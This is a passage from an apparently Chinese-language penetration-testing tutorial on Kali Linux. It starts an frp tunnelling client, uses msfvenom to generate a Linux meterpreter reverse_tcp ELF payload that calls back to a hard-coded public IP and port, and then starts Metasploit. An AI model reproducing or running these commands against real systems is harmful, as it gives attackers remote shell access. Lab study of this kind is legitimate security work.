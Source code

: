 ```shell
└─$
```

启动frpc客户端:

```shell
┌──(kali㉿kali)-[~/frp_0.37.1_linux_amd64]
└─$ ./frpc -c frpc.ini
```

![image-20211012175510710](/assets/image-20211012175510710.png)





生成二进制文件

```shell
┌──(kali㉿kali)-[~]
└─$ msfvenom -a x64  --platform linux -p linux/x64/meterpreter/reverse_tcp LHOST=175.24.115.4 LPORT=8000 -b "\x00" -f elf -o xuegod
```

![image-20211012175807108](/assets/image-20211012175807108.png)

​	

启动msf，开启监听端口

```shell
┌──(kali㉿kali)-[/var/www/html]
└─$ sudo msfdb run
```
